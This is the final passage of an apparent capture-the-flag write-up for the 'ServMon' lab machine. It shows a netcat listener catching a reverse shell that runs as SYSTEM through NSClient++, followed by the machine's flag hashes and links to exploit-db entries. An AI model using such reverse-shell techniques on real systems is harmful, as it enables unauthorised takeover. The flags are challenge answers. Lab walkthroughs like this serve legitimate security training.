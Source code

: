 ![](img/2022-06-17-01-00-59.png)
Obtaining this response:
![](img/2022-06-17-01-01-30.png)

After all those steps, when the restart is done, we can obtain a reverse shell navigating to any other page, for example `/settings`:
```shell
❯ nc -nlvp 3333
Connection from 10.10.10.184:49847
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system
```
We obtained a shell as administrator on `ServMon`.

## CVE
No CVEs were consulted for this machine.

## Machine flags
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | c799765bbeb7cfc8c1b71e72ea1b17ff | No | 16-06-2022|
| Root | 56b6e43fd5072508ebd72b769490a4e4 | No | 17-06-2022|

## References
- https://www.eclipsecctv.com/pro-series-software.html
- https://www.exploit-db.com/exploits/48311
- https://exchange.nagios.org/directory/Addons/Monitoring-Agents/NSClient++/details
- https://www.exploit-db.com/exploits/46802